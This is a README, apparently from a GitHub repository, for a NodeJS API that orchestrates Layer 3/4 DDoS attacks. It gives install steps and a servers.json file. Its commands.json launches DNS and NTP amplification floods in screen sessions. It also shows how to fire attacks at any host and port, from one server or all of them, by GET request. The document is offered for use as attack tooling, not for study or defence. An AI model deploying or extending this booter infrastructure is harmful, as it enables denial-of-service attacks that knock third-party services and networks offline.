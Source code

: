 <h2>NodeJS API for Layer 3/4 attacks</h2>

<h3>Coded by forky (tg: ***@yfork***)</h3>

<h4>This API is very secure and fast (taking 2x the ping between API and backend, if the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "alpha",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "beta",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "DNS": "screen -dmS attack_${attack_id} ./dns_amp ${host} ${port} dns.txt 1 250000 ${time}",
    "NTP": "screen -dmS attack_${attack_id} ./ntp_amp ${host} ${port} ntp.txt 1 250000 ${time}",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```
const api_port = 8888; //API Port
const socket_token = "SOCKET_TOKEN"; // TCP Socket token, use random numbers/letters
const api_key = "API_KEY"; // your API Key
const domain_lock = false; // lock api to only be used from a specific domain
const api_domain = 'example.com'; // your API domain (if domain_lock is set to true)
```

<h3>Update socket.js:</h3><br>

```
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

### Reverse Proxy

We recommend making a reverse proxy using Nginx to use your API:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Replace `'http://backend:3000/api/attack'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api/attack?host=1.1.1.1&port=80&time=120&method=DNS&server=alpha`

You can set &server=all to launch to all servers

You can stop attacks by sending a GET request to the API using &method=stop

GET `https://api.yourdomain.com/api/attack?host=1.1.1.1&port=80&time=120&method=stop&server=alpha`

